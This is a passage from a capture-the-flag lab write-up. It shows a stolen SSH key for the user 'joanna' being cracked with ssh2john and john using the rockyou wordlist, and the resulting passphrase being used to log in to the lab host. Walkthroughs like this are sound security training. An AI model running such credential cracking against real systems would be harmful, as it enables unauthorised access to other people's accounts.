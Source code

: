 after loggin in, we get the ssh key for the `joanna` user!

![joanna-key](joanna-key.jpg)

we copy it to our kali machine and we change its permissions using `chmod 600 joanna_key`

and we use it to log in. but it requires a passphrase :D

we use the tool `ssh2john` to change the ssh key into a format that's crackable by `john`. we crack the password using the `rockyou.txt` wordlist.

```
$ ssh2john joanna_key > joanna_john
$ john joanna_john --wordlist=/usr/share/wordlists/rockyou.txt
```

the password turns out to be `bloodninjas`

we use it and can successfully ssh in as the `joanna` user:

```
$ ssh -i joanna_key joanna@10.10.10.171
Enter passphrase for key 'joanna_key': 
Welcome to Ubuntu 18.04.3 LTS (GNU/Linux 4.15.0-70-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sat Mar 19 17:45:54 UTC 2022

  System load:  0.01              Processes:             169
  Usage of /:   30.9% of 7.81GB   Users logged in:       0
  Memory usage: 8%                IP address for ens160: 10.10.10.171
  Swap usage:   0%


```